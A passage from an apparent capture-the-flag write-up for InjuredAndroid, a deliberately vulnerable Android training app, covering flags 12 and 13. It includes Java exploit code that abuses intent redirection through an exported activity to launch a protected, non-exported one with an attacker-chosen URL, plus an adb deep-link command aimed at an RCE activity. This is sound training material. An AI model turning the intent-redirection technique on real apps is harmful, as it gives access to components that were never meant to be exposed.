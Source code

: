 But this activity only can be opened if we pass a Intent to the application. Combining the two methods we got:

ExportedProtectedIntent

​	|___> Intent("access_protected_component")

​							|___>startActivity(intent("FlagTwelveProtectedActivity"))

​													|___> loadUrl("totally_secure")

This way we can start activities that were not designed to be exported.

```java
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    Intent secureIntent = new Intent();
    secureIntent.setClassName("b3nac.injuredandroid","b3nac.injuredandroid.FlagTwelveProtectedActivity");
    secureIntent.putExtra("totally_secure","https://google.com");

    Intent exportedIntent = new Intent();
    exportedIntent.setClassName( "b3nac.injuredandroid","b3nac.injuredandroid.ExportedProtectedIntent");
    exportedIntent.putExtra("access_protected_component", secureIntent);

    startActivity(exportedIntent);
}
```

### **13 - RCEActivity**

As always we start at the AndroidManifest:

```xml
<activity android:label="@string/title_activity_rce" android:name="b3nac.injuredandroid.RCEActivity" android:theme="@style/AppTheme.NoActionBar">
    <intent-filter android:label="filter_view_flag11">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:host="rce" android:scheme="flag13"/>
    </intent-filter>
</activity>
```

This activity also is not exported but have an intent defined with the host "rce" and scheme "flag13". So i must check: 

````bash
adb shell am start -a android.intent.action.VIEW -d "flag13://rce" b3nac.injuredandroid
````

Clearly it didn't work. The error message said that we need to find the binary... the only binary besides the menu is te narnia ELF.
